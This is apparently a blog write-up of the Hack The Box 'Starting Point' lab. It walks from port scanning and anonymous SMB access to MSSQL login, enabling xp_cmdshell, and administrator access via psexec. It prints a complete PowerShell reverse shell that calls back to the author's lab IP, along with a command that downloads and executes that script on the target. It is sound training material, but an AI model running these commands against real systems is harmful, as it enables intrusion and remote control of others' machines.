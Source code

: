 ```yaml
---
layout: post
title: "[Hack the Box] Starting Point"
categories: Write-up
---
```

```bash
[*] environment : Kali Linux 19.04
[*] target IP : 10.10.10.27 
```

**Please hack the machine with Kali Linux 19.04. No 20.04. plsss**

Recently, I registered "Hack The Box" site for studying real hacking. Starting Point is the tutorial problem.



## Port scanning

First we scan the port of target IP, 10.10.10.27. We use `nmap` for port scanning.

**Nmap**(Network Mapper) is network exploration tool and security / port scanner. Nmap uses raw IP packets in novel ways to determine what hosts are available on the network, what services those hosts are offering, what operating systems they are running, etc.

For example, if unnecessary port is open, we can use it for exploit.

```bash
$ nmap -sC -sV 10.10.10.27
```

- `-sC` : equivalent to --script=default
- `-sV` : Probe open ports to determine service/version info

![image](https://user-images.githubusercontent.com/64528476/89916173-48700d80-dc32-11ea-990f-12c948d2f142.png)

We can see that Ports 445 and 1433 are open, which are associated with file sharing (SMB) and SQL Server.



**SMB**(Server Message Block) is a communication protocol for providing shared access to files, printers, and serial ports between nodes on a network.

We use `smbclient` to list available shares in SMB.

```bash
$ smbclient -N -L //10.10.10.27/
```

- `-N` : No password. If service does not have password, we can access.
- `-L` : Look at what services are available on a server.

![image](https://user-images.githubusercontent.com/64528476/89918597-32178100-dc35-11ea-95ce-7149f8decaea.png)



I tried to access all folder and succeed to get in the backups folder.

```bash
$ smbclient -N //10.10.10.27/backups
```

There are `prod.dtsConfig` file, so I download to my local.

![image](https://user-images.githubusercontent.com/64528476/89919630-7bb49b80-dc36-11ea-9938-5684eb3164e2.png)

**A DTSCONFIG file** is an XML configuration file used to apply property values to SQL Server Integration Services (SSIS) packages. The file contains one or more package configurations that consist of metadata such as the server name, database names, and other connection properties to configure SSIS packages.

<img src="https://user-images.githubusercontent.com/64528476/89996423-b9acd080-dcc5-11ea-8cbd-53198ff092c6.png" alt="image"/>

We can some password! We should try to connect SQL Server. I used [Impacket](https://github.com/SecureAuthCorp/impacket)'s `mssqlclient.py`  to connect server.

![image](https://user-images.githubusercontent.com/64528476/90032938-dfec6380-dcf9-11ea-91b9-0cef48622433.png)

Succeed to connect Server! I can indicate whether a SQL Server login is a member of the specified server role by `IS_SRVROLEMEMBER` function. [IS_SRVROLEMEMBER (Transact-SQL)](https://docs.microsoft.com/ko-kr/sql/t-sql/functions/is-srvrolemember-transact-sql?view=sql-server-ver15)

![image](https://user-images.githubusercontent.com/64528476/90039601-d535cc80-dd01-11ea-9e92-bb05b15ffb8a.png)

It means this account is a member of 'sysadmin'. We have sysadmin privileges! WOW. We'll activate `xp_cmdshell` for RCE(Remote Code Execution). 

**xp_cmdshell** is the function for executing OS command in MSSQL.

Let's activate `xp_cmdshell`.

```mssql
EXEC sp_configure 'show advanced options', 1
RECONFIGURE
EXEC sp_configure 'xp_cmdshell', 1
RECONFIGURE
```

Now we can input the OS command.

![image](https://user-images.githubusercontent.com/64528476/90041610-8178b280-dd04-11ea-800d-228cd0952eae.png)

<br>
Save the Powershell reverse shell as `shell.ps1`. **Someday I'll explain Reverse shell.**

```powershell
$client = New-Object System.Net.Sockets.TCPClient("10.10.14.14",443);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2 = $sendback + "# ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close() 
```

`10.10.14.14` is my IP in HackTheBox. (Check with `ifconfig`)


<br>
### Our Plan

![image](https://user-images.githubusercontent.com/64528476/90042813-25af2900-dd06-11ea-89d4-29173006e165.png)

Source : https://klonic.tistory.com/138?category=899632

1. In MSSQL Server, request `shell.ps1` by using `xp_cmdshell`.

2. Return `shell.ps1` to MSSQL Server.

3. By `shell.ps1`, MSSQL Server connected by netcat.



Stand up a mini webserver in order to host the file.

```bash
$ python3 -m http.server 80 --bind 10.10.14.14
```

Stand up a netcat listener on port 443.

```bash
$ nc -lvnp 443
```

- `-l` : listen mode, for inbound connects.
- `-v` : get more information
- `-n` : numeric-only IP addresses, no DNS
- `-p` : port number



In MSSQL, download `shell.ps1` from my ip and execute that script! We GET THE SHELL!!

```mssql
SQL> xp_cmdshell "powershell "IEX (New-Object Net.WebClient).DownloadString(\"http://10.10.14.14/shell.ps1\");" 
```

![image](https://user-images.githubusercontent.com/64528476/90046142-036bda00-dd0b-11ea-91fc-09373b048a73.png)



I can find the user flag in Desktop.

![image](https://user-images.githubusercontent.com/64528476/90046919-1632de80-dd0c-11ea-8105-909210824ea7.png)

<br>


I found the access log in here.

![image](https://user-images.githubusercontent.com/64528476/90047351-bd177a80-dd0c-11ea-8381-58b5408e9f68.png)

We get the password of administrator! We can use Impacket's psexec.py to gain a privileged shell.

![image](https://user-images.githubusercontent.com/64528476/90047992-ca813480-dd0d-11ea-8d5c-21bf13df9761.png)

I found the root flag in Desktop.

![image](https://user-images.githubusercontent.com/64528476/90048185-1fbd4600-dd0e-11ea-8820-cdeb39b8a127.png)

<br>


Tutorial is f**king hard..
